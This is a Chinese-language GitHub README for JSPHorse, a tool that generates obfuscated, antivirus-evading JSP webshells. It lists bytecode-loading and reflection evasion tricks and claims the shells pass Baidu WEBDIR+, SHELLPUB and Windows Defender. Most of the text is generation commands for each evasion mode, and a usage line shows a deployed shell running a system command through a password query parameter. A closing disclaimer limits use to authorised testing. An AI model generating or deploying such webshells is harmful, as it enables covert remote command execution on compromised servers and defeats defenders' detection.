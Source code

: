 # JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

## 简介

一个JSP免杀Webshell生成器，主要支持普通回显Webshell，也实现了蚁剑的免杀

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

主要的免杀技术：

- 基本的Java反射调用免杀
- BCEL格式字节码反射加载免杀
- ScriptEngine调用JS免杀
- Javac动态编译class免杀
- java.beans.Expression免杀
- native方法defineClass0加载字节码免杀
- ASM直接构造字节码(普通和BCEL)并加载执行免杀

代码生成方式：

- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

在Github右侧Release页面下载

- 生成标准形式基础Webshell

`java -jar JSPHorse.jar -p your_password`

- 生成蚁剑的免杀Webshell

`java -jar JSPHorse.jar -p your_password --ant`

- 生成Javac动态编译class的Webshell

`java -jar JSPHorse.jar -p your_password --javac`

- 使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

- 使用Expression免杀

`java -jar JSPHorse.jar -p your_password --expr`

- 加载BCEL字节码免杀（动态构造字节码）

`java -jar JSPHorse.jar -p your_password --bcel`

- 用ASM动态生成BCEL字节码免杀

`java -jar JSPHorse.jar -p your_password --bcel-asm`

- 使用Proxy类的native方法`defineClass0`加载字节码

注意：原理是在JVM中注册类，不允许重复，所以这种马只能执行一次命令然后失效。但`JSPHorse`从字节码层面构造了不同的类，如果想要多次执行只要重复生成多个马即可

`java -jar JSPHorse.jar -p your_password --proxy`

- 使用`defineClass0`加载ASM直接构造的字节码

注意：原理同上，只能执行一次，但`JSPHorse`每次生产的类名不一致，可以重新生成来做多次执行

`java -jar JSPHorse.jar -p your_password --proxy-asm`

- 任何一种方式加入`-u`参数进行Unicode编码（有时候有奇效）

`java -jar JSPHorse.jar -p your_password --expr -u`

- 使用`-o`指定输出文件，默认输出到`result.jsp`

`java -jar JSPHorse.jar -p your_password -o 1.jsp`

- 如何使用

1. 普通情况：`1.jsp?pwd=your_password&cmd=ipconfig`

2. 蚁剑：正常使用

## 感谢

参考三梦师傅的Webshell：https://github.com/threedr3am/JSP-Webshells

参考天下大木头师傅的Webshell：https://github.com/KpLi0rn/Shell

参考su18师傅的`defineClass0`方式：https://github.com/su18

## 免责申明

未经授权许可使用`JSPHorse`攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的


